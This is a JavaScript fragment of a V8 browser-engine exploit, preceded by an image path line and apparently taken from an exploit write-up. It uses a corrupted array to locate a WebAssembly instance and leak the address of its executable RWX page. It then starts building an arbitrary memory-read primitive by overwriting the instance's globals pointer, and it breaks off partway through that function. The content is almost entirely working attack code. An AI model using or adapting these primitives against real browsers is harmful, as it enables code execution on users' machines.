 ```js
var wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 9, 2, 96, 0, 1, 126, 96, 1, 126, 0, 2, 14, 1, 2, 106, 115, 6, 103, 108, 111, 98, 97, 108, 3, 126, 1, 3, 3, 2, 0, 1, 7, 25, 2, 9, 103, 101, 116, 71, 108, 111, 98, 97, 108, 0, 0, 9, 115, 101, 116, 71, 108, 111, 98, 97, 108, 0, 1, 10, 13, 2, 4, 0, 35, 0, 11, 6, 0, 32, 0, 36, 0, 11]);
var wasm_module = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_module, {js: {global}});
var getGlobal = wasm_instance.exports.getGlobal;
var setGlobal = wasm_instance.exports.setGlobal;

var aligned = false;
var wasm_idx = null;
var wasm_addr = null;
var victim_idx = null;
var victim_addr = null;
var rwx = null;

// it should be in the second memory region, and data may not be aligned with 0x8
for (let i = 0x081c0000/8; i < 0x08380000/8 - 2; i++) {
    // aligned wasm
    if (victim[i] == 0x0800224908206439n && victim[i+1] == 0x0800224908002249n) {
        wasm_idx = BigInt(i);
        wasm_addr = wasm_idx*8n + js_base
        info("wasm_idx", wasm_idx);
        info("wasm_addr", wasm_addr);
        aligned = true;
    }
    // not aligned wasm
    if (victim[i] >> 32n == 0x08206439n &&
        victim[i+1] == 0x0800224908002249n && victim[i+2] && 0x0800224908002249n) {
        wasm_idx = BigInt(i);
        wasm_addr = wasm_idx*8n + js_base
        info("wasm_idx", wasm_idx);
        info("wasm_addr", wasm_addr);
    }
}

if (aligned)
    rwx = victim[ wasm_idx + 12n ];
else
    rwx = (victim[ wasm_idx + 12n ] >> 32n) + ((victim[ wasm_idx + 13n] & 0xffffffffn) << 32n);
info("rwx", rwx);

function aar(addr) {
    let ret = null;
    let victim_bk = victim[0];
    victim[0] = addr;
    victim[0] = 0n;
    if (aligned) {
        let bk = victim[ wasm_idx + 10n ];
        victim[ wasm_idx + 10n ] = js_base; // set imported_mutable_globals ptr
        ret = getGlobal();
        victim[ wasm_idx + 10n ] = bk;
    } else {
        let bk1 = victim[ wasm_idx + 10n ];
        let bk2 = victim[ wasm_idx + 11n ];
        victim[ wasm_idx + 10n ] = (victim[ wasm_idx + 10n ] & 0xffffffffn) + ((js_base & 0xffffffffn) << 32n);
        victim[ wasm_idx + 11n ] = ((victim[ wasm_idx + 11n ] >> 32n) << 32n) + (js_base >> 32n);
        ret = getGlobal();
        victim[ wasm_idx + 10n ] = bk1;
        victim[ wasm_idx + 11n ] = bk2;
    }
    victim[0] = victim_bk;
```